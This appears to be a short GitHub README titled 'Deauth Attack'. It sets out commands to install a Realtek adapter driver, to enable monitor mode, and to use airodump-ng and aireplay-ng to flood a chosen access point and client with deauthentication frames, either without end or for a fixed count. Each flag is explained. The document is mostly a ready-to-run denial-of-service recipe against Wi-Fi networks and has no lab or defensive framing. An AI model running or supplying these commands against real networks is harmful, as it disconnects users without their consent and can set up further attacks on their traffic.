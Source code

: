 # Deauth Attack


## Commands used to setup the adapter
```
sudo apt update
sudo apt install bc
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
make
sudo make install
sudo modprobe 8188eu
```

## Commands to enable monitor mode after setting up
```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig
```

## Actions
```
airmon-ng
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -d "target's BSSID" -c "target's channel number" "wireless adapter monitor mode name"
airodump-ng -d 50:C7:BF:DC:4C:E8 -c 11 wlan0mon
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon
```

### Command instructions
```
-0 means deauthentication.
 0 is the number of deauths to send 0 means send them continuously, you can send 10 if you want the target to disconnect and reconnect.
-a 50:C7:BF:DC:4C:E8 is the MAC address of the access point we are targeting.
-c E0:B5:2D:EA:18:A7 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated.
wlan0mon is the interface name.
```
